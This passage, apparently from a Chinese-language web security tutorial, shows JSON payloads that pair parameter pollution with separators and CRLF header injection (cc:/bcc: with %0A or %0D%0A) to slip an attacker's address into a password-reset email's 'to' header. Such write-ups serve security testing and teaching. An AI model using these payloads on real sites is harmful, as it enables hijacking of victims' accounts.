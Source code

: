     // Semiclon saperator with HPP chain  
    {"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}  
    {"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}  
    // Space saperator with HPP chain  
    {"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}  
    {"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}  
    

分号分隔符

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307183114.png)

img_12.png

空格分隔符

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307183118.png)

img_13.png

因此,旧版本中的`$to`参数被注入到“to:”报头中,没有任何针对SMTP报头注入攻击的保护,所以让我们尝试一下:

### CRLF注入

> 注意：在Unix系统中，我们可以只添加 \n 作为换行符来进行SMTP头的注入，但在windows系统中，你需要添加 \r\n
> 来进行SMTP头的注入攻击。

Unix系统(`\n` url-encoded)

    
    
    // Carbon Copy (CC:) with HPP chain  
    {"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}  
      
    // Blind Carbon Copy (BCC:) with HPP chain  
    {"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}  
    

Windows系统(`\r\n` url-encoded)

    
    
    // Carbon Copy (CC:) with HPP chain  
    {"email":"Victim@mail.com%0D%0Acc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email":"Victim@mail.com%0D%0Acc:Attacker@mail.com"}  
      
    // Blind Carbon Copy (BCC:) with HPP chain  
    {"email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com"}  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307183122.png)

img_14.png

也没有作用

如果版本稍微新一点，并且在`$to`参数中存在防止CRLF注入或SMTP头注入的保护措施呢？
